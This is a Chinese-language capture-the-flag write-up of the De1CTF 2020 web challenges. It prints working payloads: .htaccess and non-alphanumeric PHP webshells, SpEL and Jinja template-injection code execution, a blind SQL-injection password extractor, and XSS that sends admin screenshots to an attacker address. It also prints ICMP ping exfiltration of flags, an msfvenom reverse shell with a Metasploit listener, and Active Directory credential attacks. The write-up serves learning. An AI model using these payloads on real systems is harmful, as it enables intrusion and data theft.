

De1CTF 2020 Web
赛时菜如狗，赛后复现喽
De1CTF 2020 Web1. check in反斜杠转义换行绕过限制利用cgi-script2. calc老实构造读flag大写绕过new读flag%00绕T(读flag绕过openrasp命令执行3. mixtureWeb部分4. Animal Crossing强制类型转换触发valueOf用throw传递变量读取admin页面图片5. mc_logclient非预期预期解利用icmp外带数据6. Hard_Pentest_17. Hard_Pentest_2More. 参考链接
1. check in
一个php文件上传的题
不允许上传.ph*的后缀文件，且文件内容也有限制，如下
perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet in contents!
不过服务器是Apache/2.4.6 (CentOS) PHP/5.4.16，且可以上传.htaccess
传统的方法是通过向.htaccess中写
xxxxxxxxxxAddType application/x-httpd-php .ccc或者SetHandler application/x-httpd-php .ccc
这样apache会将以.ccc结尾的文件用处理php文件的方法去处理程序，可把*.ccc解析成*.php执行
但php被过滤了，这里有2种方法
反斜杠转义换行绕过限制
用反斜杠\转义换行符，绕过php限制
xxxxxxxxxxAddType application/x-httpd-p\hp .ccc
再写入1.ccc:<?=eval($_GET[c]);
利用cgi-script
也看到flag显示了cgi，预期解应该是用cgi来做
如下是运行执行cgi的.htaccess
xxxxxxxxxxOptions +ExecCGIAddHandler cgi-script .ccc
1.ccc:
xxxxxxxxxxecho "Content-Type: text/plain"echo ""cat /flagexit 0PS. 改burp里脚本的内容时，注意换行符是%0a而非%0d%0a，不然会爆500错误，本题上传的文件自带执行权限，不然也会500
2. calc
SpEL注入,有少许过滤，目标是要获取/flag文件
进过一系列手工测试，发现过滤了如下关键字
xxxxxxxxxx"Runtime" "new" "String" "T(" ";" "exec(" "#" "getClass" "java.lang" ......
禁用了 getClass(): Object类中包含一个方法名叫getClass，利用这个方法就可以获得一个实例的类型类
但在SpEL中，''.getClass()等价于''.class，可以得到class java.lang.String
forName(): 查找并加载指定的类，会执行该类的静态代码段，并返回与该类相关的Class对象
于是通过''.class.forName('java.lan'+'g.Ru'+'ntime') 就可以装载一个java.lang.Runtime类
getDeclaredMethods(): 可以拿到反射类中的公共方法、私有方法、保护方法、默认访问，但不获得继承的方法
getMethods():获取的是所有public方法，包括：类自身声明的public方法、父类中的public方法、实现的接口方法。
于是通过
xxxxxxxxxx''.class.forName('java.lang.Runtime').getDeclaredMethods()[15]可以得到
xxxxxxxxxxpublic java.lang.Process java.lang.Runtime.exec(java.lang.String) throws java.io.IOException然后是invoke():用来在运行时动态地调用某个实例的方法
xxxxxxxxxxinvoke（Object obj,Object...args）// 第一个参数为类的实例，第二个参数为相应方法中的参数尝试构造了：
xxxxxxxxxxcalc=''.class.forName('java.lan'+'g.Ru'+'ntime').getDeclaredMethods()[15].invoke(''.class.forName('java.l'+'ang.R'+'untime').getDeclaredMethods()[7].invoke(null),'curl xxx') 发现存在openrasp限制了命令执行
这里稍微列几种解法
老实构造读flag
xxxxxxxxxxcalc=''.class.forName('java.nio.file.Files').readAllLines(''.class.forName('java.nio.file.Paths').get('/flag'))大写绕过new读flag
xxxxxxxxxxcalc=NeW java.util.Scanner(NeW java.io.File('/flag')).next()%00绕T(读flag
在SpEL中，使用T()运算符会调用类作用域的方法和常量
xxxxxxxxxxcalc=T%00(java.nio.file.Files).readAllLines(T%00(java.nio.file.Paths).get('/flag'))绕过openrasp命令执行
可以根据多种姿势openrasp命令执行绕过这篇文章的方法二，使用反射的方式,修改openrasp的HookHandler类的变量enableHook设置为false。而这个变量是全局的开关。所以我们只需重新关闭这个开关就可以使rasp失效。实现全局绕过。
还看到了另一种绕过方法，详情见bypass openrasp SpEL RCE 的过程及思考
3. mixture
比赛的时候被题目描述绕坑里去了..
Web部分
打开题目只有一个登录框，当用户名为admin时会检查，用户不为admin可以随便登录
登录后访问admin.php提示当前用户不为admin，那就是要搞到admin的密码
只有一个member.php有正常回显
且这个页面的注释里有<!--orderby-->
尝试orderby=1,orderby=2...都是一样的回显
但是当输入SQL一些关键字时，会提示No~~hacker!
orderby=limit x时会有不同的返回
于是猜测语句是
xxxxxxxxxx"SELECT id,username,money FROM users order by id " . $orderby;mysql的limit注入
获取admin密码脚本如下：
x#!/usr/bin/python# -*- coding: UTF-8 -*-import requestss = requests.session()origin = s.get(url="http://134.175.185.244/member.php?orderby=|1%2b(binary(user())>binary(0x1))",cookies={"PHPSESSID":"112233213121"})def getPassword(): # [*]Password is :18a960a3a0b3554b314ebe77fe545c85 url = "http://134.175.185.244/member.php?orderby=" text = "" for j in range(0,100): for i in range(33,128): char = chr(i) orderby = "|1%2b(binary((select group_concat(password) from member))<=binary(0x" + (text+char).encode('hex') + "))" r = s.get(url=url + orderby,cookies={"PHPSESSID":"112233213121"}) if r.text == origin.text: text += chr(i-1) print "[+]"+ text break if i == 127: text = text[:-1]+chr(ord(text[-1:])+1) print "[*]Password is :"+text print "End~" exit()getPassword()
得到18a960a3a0b3554b314ebe77fe545c85,md5解密得到goodlucktoyou
可登陆admin,可以看到一个phpinfo页面和一个任意文件读取功能
phpinfo中有着这么个奇怪的东西
且通过读取/var/www/html/select.php源码得到
xxxxxxxxxx<?phpinclude "profile.php";$search = $_POST['search'];if($_SESSION['admin']==1){ print <<<EOT<form class="form" action="select.php" method="post"> <div class="form-group"> <label for="disabledTextInput">You can search anything here!!</label></br> <input type="text" name="search" id="fromgo" class="form-control"> </div> </div> <div class="form-group"> <input type="submit" name="submit" class="btn btn-info btn-md" value="submit"> </div></form>EOT;}else{ print <<<EOT <div class="container"> <div class="row" > <div class="col-md-10 col-md-offset-4"> <div class="input-group" display：block;margin：0 auto;> <button class="btn btn-info btn-search " type="button" >You are not admin or not enough money!</button> </span> </div><!-- /input-group --> </div><!-- /.col-lg-6 --> </div> </div>EOT;}if($_SESSION['admin']==1&&!empty($search)){ //var_dump(urldecode($search)); Minclude(urldecode($search)); //lookup($search);}可以看到读取文件的功能是Minclude(urldecode($search));
通过phpinfo知道php.ini路径，读取得到Minclude.so的路径
xxxxxxxxxxextension=/usr/local/lib/php/extensions/no-debug-non-zts-20170718/Minclude.so
Pwn部分还是见官方wp吧
4. Animal Crossing
Hint: What is the admin doing? 管理员在做什么？
一道xss题，CSP很简单，为default-src 'self' 'unsafe-inline' 'unsafe-eval';object-src 'none'; 允许self的script执行
这道题共有5个参数可控，头像那里其实还有一个图片上传点(仅支持上传png后缀)
但在js中，这些参数都被单引号或双引号包裹，其中4个参数里的单引号或双引号通通都被替换成了'或"，导致没法绕
xxxxxxxxxxhttp://134.175.231.113:8848/passport?image=0'"&island=1'"&fruit=2'"&name=3'"&data=4"
只能看到最后一个参数:data，双引号并未替换成"
但是直接输入单引号时又会提示Hacker! Illegal data detected! Stop it!
同时,有且只有data参数过滤了一些xss的关键词如eval,alert,window，try等
当用//注释掉后面的单引号时，返回正常
接下来就是构造xss，这里出题人其实是做了两层waf防御
看到2种方法构造（绕过waf）
由于可以直接拼接，但是所有声明/赋值语句都被ban，一些xss常用的关键字也禁用了等
需要用一些字符串替换（base64，字符串连接等）来执行xss
强制类型转换触发valueOf
javascript 中几乎所有类型都具有toString和valueOf属性。几乎所有的类型对象比如Number,String,Boolean,Array,Function,Object,Date,RegExp的原型对象上都有各自的toString或valueOf方法的实现,故它们的实例化的对象自然就继承了这两个方法。

valueOf()和toString()在Js强制类型转换中起了很大作用
可以自定义一个参数的valueOf值，让其在强制类型转换时执行valueOf时即可执行js
测试一下触发valueOf()和toSting()的情况
发现b直接与数字或者字符串一起操作时，valueOf()触发，而当b被当做数组时，触发了toString(),这题过滤了String,不太好构造toString()的触发
但比较容易构造valueOf,构造如下内容：
xxxxxxxxxx'-{"valueOf":new "".constructor.constructor(atob("YWxlcnQoMSk="))}//
这个new是必须加的..不然过不了waf
xxxxxxxxxxlet data = ''-{"valueOf":new "".constructor.constructor(atob("YWxlcnQoMSk="))}//
用throw传递变量
原理是
xxxxxxxxxxtry{throw 'something'}catch(e){e} //传递something 变量frames['alert'](1) //等价于window.frames['alert'](1)，也同window['alert'](1) 执行js弹窗 -> 可构造evalframes['eval']('alert(1)') //弹窗于是payload为:
xxxxxxxxxxdata='%0atry{throw "YWxlcnQoMSk="}catch(e){frames["ev"+"al"](atob(e))}//由于静态语法分析的原因上面这个被拦了，详情可见上面提供的防御检测第二层.2.3真正可用的payload如下：data='%0atry{throw 'ev'+'al'}catch(e){try{throw frames[e]}catch(c){c(atob('YWxlcnQoMSk='))}}//
如果不加%0a（或者%0d）会提示Hacker! Illegal data detected! Stop it!
YWxlcnQoMSk=为alert(1)的base64编码
读取admin页面图片
直接打admin的cookie，发现只获取到了前半部分的flag
读取admin所在的页面发现存在大量/island/目录下的图片内容，且直接访问不到
根据出题人赛后提供的3种解法

尝试下比赛时没人用的解法1
由于CSP的原因，不能直接引入站外的js脚本，但是存在一个上传点，虽然规定了后缀必须是png，但可以将js文件改后缀上传，并利用js读取再eval执行
首先尝试上传js.png (html2canvas.js改名后)
xxxxxxxxxx html2canvas.js代码 // 截图->上传到upload->外传图片地址html2canvas(document.body).then(function(canvas) { const form = new FormData(), url = "/upload", blob = new Blob([canvas.toDataURL().toString()], {type : "image/png"}) file = new File([blob], "a.png") form.append("file", file) fetch(url, { method: "POST", body: form }).then(function(response) { return response.json() }).then(function(data) { location.href="//your_ip_address:port/?"+data.data.toString() }) })然后让admin执行
xxxxxxxxxxfetch(`/static/images/your_img.png`).then(res=>res.text()).then(txt=>eval(txt))尝试提交构造的payload
这里发现用throw传递变量这种方法可以执行，但是用constructor.constructor 执行会报错: Uncaught (in promise) ReferenceError: html2canvas is not defined

用constructor.constructor构造时不能直接贴在在那个js源码后，原因见下图的demo
constructor.constructor执行的js的global为Object而非Window,所以直接test()是无法找到定义的
payload需要添加到html2canvas.js文件开头如下位置(***YOUR_PAYLOAD***)
xxxxxxxxxx(function (global, factory) { typeof exports === 'object' && typeof module !== 'undefined' ? module.exports = factory() : typeof define === 'function' && define.amd ? define(factory) : (global = global || self, global.html2canvas = factory()); // ***YOUR_PAYLOAD_START***global.html2canvas(document.body).then(function(canvas) { const form = new FormData(), url = "/upload", blob = new Blob([canvas.toDataURL().toString()], {type : "image/png"}) file = new File([blob], "a.png") form.append("file", file) fetch(url, { method: "POST", body: form }).then(function(response) { return response.json() }).then(function(data) { location.href="//your_ip_address:port/?"+data.data.toString() }) }) //***YOUR_PAYLOAD_END*** }(this, function () { 'use strict'; html2canvas.js代码 }));发送给admin后获得截图上传的位置
获取到的是base64格式的图片，弄到本地，用<img src="xxxx"/>来查看得到后半部分flag
5. mc_logclient
Hint 1: Here's your useful tool to write log file without joining in the game. nc SERVER-IP 6000 env: python3.8
Hint 2: common network protocol
题目提供了源码，如下
xxxxxxxxxx#!/usr/bin/env python3# -*- coding: utf-8 -*-# @Author: impakho# @Date: 2020/04/12# @Github: https://github.com/impakhofrom flask import Flask, request, Response, session, render_template_stringimport posix, os, sys, signal, random, time, datetime, string, hashlib, json, threadingfrom uuid import UUIDdef rand_str(length=16): return ''.join(random.sample(string.ascii_letters + string.digits, length))app = Flask(__name__)app.config['SECRET_KEY'] = os.urandom(32)# Some bad words.blacklist = ['+', ',', ':', '\'\'', '""', '%', 'lower', 'upper', 'builtin', 'fork', 'exec', 'walk', 'open', 'spawn', 'reload', 'exit', 'bin', 'sh', 'cat', 'config', 'secret', 'key', 'flag']# Posix is a bad module, filter it all.for i in dir(posix): blacklist.append(i.lower())random.seed(time.time())def printableFilter(s): return ''.join(filter(lambda x: x in string.printable[:-2], s)).route('/')def index(): html = '<link rel="stylesheet" href="https://unpkg.com/purecss@1.0.0/build/pure-min.css">\n<div class="pure-g"><div class="pure-u-1-5"></div><div class="pure-u-3-5"><p><h1>Minecraft Log Web Client</h1></p>\n<span style="color:red;">[IMPORTANT WARNING]<br>\n<span style="margin-left: 30px;">For ATTACKER: your log file is public! Please try some tricks to keep your payload in secret, or may leak and stealed by others.</span><br>\n<span style="margin-left: 30px;">For STEALER: you may facing XSS attack by ATTACKER.</span><br>\nHave fun! lol. @impakho</span>\n<p><a class="pure-button" href="/source">Source Code</a></p>\n<table class="pure-table pure-table-horizontal" style="width:100%;">\n<thead><tr><th>Filename</th></tr></thead>\n<tbody>\n' filelist = '' for root, dirs, files in os.walk('./logs/'): for name in files: filelist += '<tr><td><a href="read?filename=' + name + '">' + name + '</a></td></tr>\n' if len(filelist) <= 0: html += '<tr><td><i>empty</i></td></tr>\n' else: html += filelist html += '</tbody>\n</table>\n</div><div class="pure-u-1-5"></div></div>' return Response(html, mimetype='text/html').route('/pow')def pow(): text = rand_str() result = hashlib.sha256(text.encode()).hexdigest() session['text'] = text[:12] session['result'] = result return Response(json.dumps({'text': text[:12], 'hash': result}), mimetype='application/json').route('/read')def read(): if not checkPoW(session, request.args.get('work')): return Response('PoW check fail.', mimetype='text/html') filename = request.args.get('filename') try: val = UUID(filename, version=4) except ValueError: return Response('Not a valid UUID filename.', mimetype='text/html') try: fp = open('./logs/' + filename, 'r') except: return Response('File not exist.', mimetype='text/html') binary = printableFilter(fp.read()) fp.close() # Check blacklist for i in blacklist: if i in binary.lower(): return Response('Bad log file.', mimetype='text/html') # Do some replacement binary = binary.replace(' ', '').replace('<', '<').replace('>', '> ').replace('\n', '<br />\n') html = '<link rel="stylesheet" href="https://unpkg.com/purecss@1.0.0/build/pure-min.css">\n<div class="pure-g"><div class="pure-u-1-5"></div><div class="pure-u-3-5"><p><h1>Minecraft Log Web Client</h1></p>File <' + filename + '><p>\n' session['filename'] = filename html += binary html += '\n</p></div><div class="pure-u-1-5"></div></div>' return Response(renderHandler(session, html), mimetype='text/html').route('/write')def write(): if not checkPoW(session, request.args.get('work')): return Response('PoW check fail.', mimetype='text/html') if 'w' not in session or 'filename' not in session: return Response('Select a log file first.', mimetype='text/html') text = request.args.get('text') if text == None or len(text) <= 0: return Response('Text is empty.', mimetype='text/html') if len(text) > 512 or not all(c in string.printable for c in text): return Response('Invalid text format.', mimetype='text/html') try: # Write to stdout print(session['filename'] + ' ' + text + '\n') # Write to log/log.txt open('log/log.txt', 'a').write(session['filename'] + ' ' + text + '\n') # Write to child w = os.fdopen(session['w'], 'w') w.write(text) w.close() del session['w'] except: return Response('Write fail.', mimetype='text/html') return Response('Write succ.', mimetype='text/html').route('/source')def source(): html = open(__file__).read() return Response(html, mimetype='text/plain')def checkPoW(session, work): if 'text' not in session or 'result' not in session or work == None: return False text = session['text'] result = session['result'] del session['text'] del session['result'] if len(text) != 12 or len(result) != 64 or len(work) != 4: return False if hashlib.sha256((text + work).encode()).hexdigest() != result: return False return Truedef renderHandler(session, html): renderCleanUp(session) # For security, fork a child process to render. r, w = os.pipe() session['w'] = w pid = os.fork() if pid: os.close(r) # Check child process status, and wait it to finish thread = waitThread(pid) thread.start() else: signal.signal(signal.SIGALRM, kill) signal.alarm(30) os.close(w) r = os.fdopen(r, 'r') sys.stdin = r try: render_template_string(html) except: pass kill(None, None) return htmldef renderCleanUp(session): try: os.close(session['w']) except: passdef kill(signum, frame): os.kill(os.getpid(), signal.SIGKILL)class waitThread(threading.Thread): def __init__(self, pid): threading.Thread.__init__(self) self.pid = pid def run(self): count = 0 while True: if count >= 30: try: os.kill(self.pid, signal.SIGKILL) except: break try: os.waitpid(self.pid, os.WNOHANG) except: break count += 1 time.sleep(1)if __name__ == '__main__': app.permanent_session_lifetime = datetime.timedelta(minutes=5) app.run(host='0.0.0.0', port=80, debug=False)根据源码，看到有render_template_string(html)，且提供了python版本，是一道很明确的模板注入题，只不过没有回显
题目还提供了一个端口直接写log
xxxxxxxxxx{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('curl${IFS}ip')}}本地其实这个payload很容易就打通了
非预期
由于黑名单不完善出现非预期，可以通过 \x 或者 request.args 进行绕过，无需调用/write
\x65 -> e绕过system 删了空格，可以用tab绕
发现curl，wget均无果，尝试
xxxxxxxxxx{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['syst\x65m']('ping ne5em9.dnslog.cn')}}本地测试成功，讲道理远程应该有请求才对...比赛的时候卡死在这了
比赛后想通了，这里传入的是域名，而域名是需要解析的...题目只有icmp协议可以传出
xxxxxxxxxx{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['syst\x65m']('ping MUST.YOUR.IP.ADDRESS')}}
还可用 request.args 绕过限制:
xxxxxxxxxx{{[].__class__.__mro__[-1].__subclasses__()[80].__init__.__globals__[request.args.b]['eval'](request.args.c)}}# [].__class__.__mro__[-1].__subclasses__()[80]为_frozen_importlib._ModuleLock# GET时传入b=__builtins__&c=__import__('os').system('ping -c 1 -p 74657374 MUST.YOUR.IP.ADDRESS')
预期解
在 python 3.7 以后，有一个新的函数 sys.breakpointhook() 可以通过它起一个调试器，进行任意代码执行。
pdb: 是 python 自带的一个包，为 python 程序提供了一种交互的源代码调试功能，主要特性包括设置断点、单步调试、进入函数调试、查看当前代码、查看栈片段、动态改变变量的值等。

payload为:
xxxxxxxxxx{{[].__class__.__base__.__subclasses__()[133].__init__.__globals__['sys']['breakpointhook']()}}然后访问 /read?work={work}&filename={uuid} 触发 ssti
大概有30秒的时间，去调用 /write 的w = os.fdopen(session['w'], 'w')以及w.write(text)往 pdb 去写命令，原因是session['w']定义如下：
xxxxxxxxxxr, w = os.pipe()session['w'] = w#触发命令Demo: text=p exec("__import__('os').system('curl 127.0.0.1')")后端信息大概是这样
利用icmp外带数据
下面的命令在自己的服务器上运行可以查看134.175.230.10与本服务器通信的详细信息
xxxxxxxxxxtcpdump -q -XX -vvv -nn host 134.175.230.10用nc写入后/read成功后收到请求：
xxd可将内容转换成16进制，while循环读取赋值给data，进行ping，-p指定填充ping数据包的十六进制内容
xxxxxxxxxxls / | xxd -p -c 16 | while read data; do ping -p $data -c 1 YOUR_IP_ADDRESS ;done 上面这个我本地可以打，但是远程打不了
只好利用python获取数据再通过ping返回
利用
xxxxxxxxxx{{[].__class__.__mro__[-1].__subclasses__()[80].__init__.__globals__[request.args.a][request.args.b](request.args.c)}}# GET再传入a=__builtins__&b=exec&c=YOUR_COMMAND请求时修改GET的参数c，如下是读取ls /的部分结果（ping一次能带出的数据有限，所以获取flag时也得分多次）
xxxxxxxxxxmy_ip = "xxx.xxx.xxx.xxx"base64_code = base64.b64encode('''import subprocess;p = subprocess.Popen('ls /',shell=True,stdout=subprocess.PIPE);data,err=p.communicate();import os;data=str(data).encode().hex();os.system("ping -c 1 -p "+data[:20]+" '''+ my_ip +'''");''')command = "import base64;exec(base64.b64decode(\""+base64_code+"\"))"最终获取flag（还需要执行/readflag并计算一个数学题，直接可用eval来计算）：
xxxxxxxxxxmy_ip = "xxx.xxx.xxx.xxx"base64_code = base64.b64encode('''from subprocess import *;import os;p=Popen("/readflag",stdout=PIPE,stdin=PIPE);r=p.stdout;r.readline();ans=str(eval(r.readline()));os.system("ping -c 1 -p "+p.communicate((str(ans)).encode())[0][24:].hex()+" '''+my_ip+'''");''')command = "import base64;exec(base64.b64decode(\""+base64_code+"\"))"# [20:]: De1CTF{MC_L0g_C1# [38:]: C1ieNt-t0-S1mPl3# [46:]: -S1mPl3_S2Tl~}# flag is :De1CTF{MC_L0g_C1ieNt-t0-S1mPl3_S2Tl~}
6. Hard_Pentest_1
打开题目，源码如下
xxxxxxxxxx<?php//Clear the uploads directory every hourhighlight_file(__FILE__);$sandbox = "uploads/". md5("De1CTF2020".$_SERVER['REMOTE_ADDR']);@mkdir($sandbox);@chdir($sandbox);if($_POST["submit"]){ if (($_FILES["file"]["size"] < 2048) && Check()){ if ($_FILES["file"]["error"] > 0){ die($_FILES["file"]["error"]); } else{ $filename=md5($_SERVER['REMOTE_ADDR'])."_".$_FILES["file"]["name"]; move_uploaded_file($_FILES["file"]["tmp_name"], $filename); echo "save in:" . $sandbox."/" . $filename; } } else{ echo "Not Allow!"; }}function Check(){ $BlackExts = array("php"); $ext = explode(".", $_FILES["file"]["name"]); $exts = trim(end($ext)); $file_content = file_get_contents($_FILES["file"]["tmp_name"]); if(!preg_match('/[a-z0-9;~^`&|]/is',$file_content) && !in_array($exts, $BlackExts) && !preg_match('/\.\./',$_FILES["file"]["name"])) { return true; } return false;}?><html><head><meta charset="utf-8"><title>upload</title></head><body><form action="index.php" method="post" enctype="multipart/form-data"> <input type="file" name="file" id="file"><br> <input type="submit" name="submit" value="submit"></form></body></html>大致看出是要写个不含数字字母的webshell，但后缀不能是php
一开始尝试上传phtml,php3这种都访问不到，一顿fuzz
发现phP可以访问到且解析，所以是台windows（还可以1.php::$DATA
然后是构造webshell
列下一些可用的上的trick：
xxxxxxxxxx!preg_match('/[a-z0-9;~^`&|]/is',$file_content)# 利用无穷大INFecho ((++$_+(++$_))**(++$_))**((++$_)**(++$_)); //INF echo (((++$_+(++$_))**(++$_))**((++$_)**(++$_)).($_)){($_-$_)}; //I# 利用数组Arrayecho ([].($_)){$_};// A# 利用大数如：1.9662705047555E+77echo (((++$_+(++$_))**($_))**((++$_)**(++$_)).(++$__)){$__*(++$__)+$__*(++$__)+(++$___)+($___)}; //E# 利用NANecho (('a'/'a').$_)[$_]; //N# ++符$_='a';echo ++$_; //b其实这题还允许?>，虽然不允许;还是可以通过分段构造
xxxxxxxxxx <?=$_=[]?><?=$_="$_"?> .......如果不允许?>和;的话，还可以利用三元运算符?:来传参赋值
xxxxxxxxxxecho ($_=(('+'/'+').'%')[!'+'+''])?((++$_)? ++$_ : ''):''; #获得P......构造个简单的webshell
xxxxxxxxxx<?php$_=([].$_)[$_];$_++;$_++;$_++;$_++;$__=$_; //E$_++;$_++;$_______=$_; //G$_++;$_++;$_++;$_++;$_++;$_++;$___=$_; //M$_++;$_++;$_++;$_++;$_++;$_++;$____=$_; //S$_++;$_____=$_; //T$_++;$_++;$_++;$_++;$_++; $______=$_;// Y$_++;$_=$____.$______.$____.$_____.$__.$___; //SYSTEM$__=$_______.$__.$_____; //GET$___='_'.$__; //_GET($_)(${$___}[$_]); //SYSTEM($_GET['SYSTEM'])上传x1.phP：
xxxxxxxxxx<?=$_=([].$_)[$_]?><?=$_++?><?=$_++?><?=$_++?><?=$_++?><?=$__=$_?><?=$_++?><?=$_++?><?=$_______=$_?><?=$_++?><?=$_++?><?=$_++?><?=$_++?><?=$_++?><?=$_++?><?=$___=$_?><?=$_++?><?=$_++?><?=$_++?><?=$_++?><?=$_++?><?=$_++?><?=$____=$_?><?=$_++?><?=$_____=$_?><?=$_++?><?=$_++?><?=$_++?><?=$_++?><?=$_++?><?=$______=$_?><?=$_++?><?=$_=$____.$______.$____.$_____.$__.$___?><?=$__=$_______.$__.$_____?><?=$___='_'.$__?><?=($_)(${$___}[$_])?>再写个eval()后门，然后用蚁剑连接
xxxxxxxxxxSYSTEM=echo "<?php eval($_POST[c]);?>">111.php
也无发现。
于是msf制作反弹shell win.exe:
xxxxxxxxxxmsfvenom -p windows/meterpreter_reverse_tcp lhost=xxx.xxx.xxx.xxx lport=xxxx -f exe -o /tmp/win.exe服务器msf监听:
xxxxxxxxxxset PAYLOAD windows/meterpreter/reverse_tcpset target 2set LHOST xxx.xxx.xxx.xxxset LPORT xxxxexploit
后门下载执行win.exe后可以收到请求
然后进入session 1命令：sessions 1
得到meterpreter的shell
执行net use发现
发现域控共享文件夹Hint有一个压缩包flag1_and_flag2hint.zip
通过蚁剑下载下来，但解压需要密码
net users /domain发现存在HintZip_Pass用户
于是用msf的post/windows/gather/credentials/gpp来获取
密码为zL1PpP@sSwO3d
解压得到flag1和后续hint
xxxxxxxxxxflag1: De1CTF{GpP_11Is_SoOOO_Ea3333y}Get flag2 Hint:hint1: You need De1ta user to get flag2hint2: De1ta user's password length is 1-8, and the password is composed of [0-9a-f].hint3: Pay attention to the extended rights of De1ta user on the domain.hint4: flag2 in Domain Controller (C:\Users\Administrator\Desktop\flag.txt)PS: Please do not damage the environment after getting permission, thanks QAQ.
7. Hard_Pentest_2
复现的太慢..复现到这的时候这题挂了，可惜了
只能根据writeup学习学习思路，主要步骤如下：
- 需要用户
De1ta才能得到flag2，对De1ta用户进行信息收集，发现web用户对De1ta用户的servicePrincipalName属性具有写权限 - 根据
Hint2猜测应该是通过web用户给De1ta设置spn然后通过Kerberoasting及hashcat去暴力破解De1ta用户的密码 - 根据
Hint3：注意De1ta在域上的拓展权限，然后对域的ACL进行信息收集 - 通过基于资源的约束委派对当前主机进行本地提权
- 利用
Dcshadow修改用户的属性 - 使用用户
De1ta进行推送，触发域控间数据的同步 - 读取
flag2
More. 参考链接
De1CTF Hard_Pentest1&2 Writeup By W&M
bypass openrasp SpEL RCE 的过程及思考